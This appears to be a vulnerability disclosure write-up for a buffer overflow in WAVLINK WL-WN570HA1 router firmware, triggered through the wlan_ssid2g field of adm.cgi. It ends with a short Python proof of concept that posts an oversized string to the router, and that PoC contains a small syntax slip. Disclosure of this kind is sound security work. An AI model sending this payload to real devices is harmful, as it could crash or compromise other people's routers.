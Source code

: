 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a buff overflow in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](3.png)

get value from wlan_ssid2g

![](4.png)

and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'wlan_ssid2g': + payload})
``` 
